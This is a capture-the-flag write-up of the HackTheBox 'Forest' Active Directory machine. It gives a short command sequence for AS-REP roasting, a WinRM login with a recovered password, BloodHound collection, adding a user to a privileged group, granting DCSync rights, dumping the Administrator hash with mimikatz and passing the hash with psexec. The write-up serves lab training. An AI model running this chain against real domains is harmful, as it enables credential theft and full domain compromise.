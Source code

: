 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/LcROWwoyOxU/0.jpg
layout: post
media_subpath: /assets/posts/2020-03-21-forest-hackthebox
tags:
- active directory
- asrep-roasting
- bloodhound
- dcsync
- hackthebox
- windows
title: Forest @ HackTheBox
---
```


Forest is a 20-point active directory machine on HackTheBox that involves user enumeration, AS-REP-Roasting and abusing Active Directory ACLs to become admin.

{% youtube LcROWwoyOxU %}

## Notes

To route your windows vm through kali run the following commands on kali:

```
sudo sysctl -w net.ipv4.ip_forward=1
sudo /sbin/iptables -t nat -A POSTROUTING -o tun0 -j MASQUERADE
sudo /sbin/iptables -A FORWARD -i tun0 -o eth1 -m state --state RELATED,ESTABLISHED -j ACCEPT
sudo /sbin/iptables -A FORWARD -i eth1 -o tun0 -j ACCEPT
```

  
On Windows set the kali vm as default gateway & the target box as dns server. Make sure both vms share the same virtual network. Windows can now use the same vpn connection and you can join the windows vm to the domain.

AS-REP-Roast:

```
GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161 
```

WinRM:

```
Set-Item WSMan:\localhost\Client\TrustedHosts -Value '*'
$user='svc-alfresco'
$pass=ConvertTo-SecureString -AsPlainText 's3rvice' -Force
$cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $user,$pass
New-PSSession -URI http://forest.htb:5985/wsman -Credential $cred
Enter-PSSession <num>
```

Sharphound:

```
sharphound.exe -c all
```

Add user & put into group (requires powerview):

```
net user xct <pw> /add /domain
add-domaingroupmember -identity "exchange windows permissions" -members "xct"
```

Add DCSync rights (requires powerview):

```
add-domainobjectacl -credential $cred -targetidentity "DC=htb,DC=local" -Rights DCSync
```

DCSync (mimikatz):

```
lsadump::dcsync /domain:htb.local /user:Administrator
```

Pass-The-Hash:

```
psexec.py -hashes :<hash> administrator@10.10.10.161
```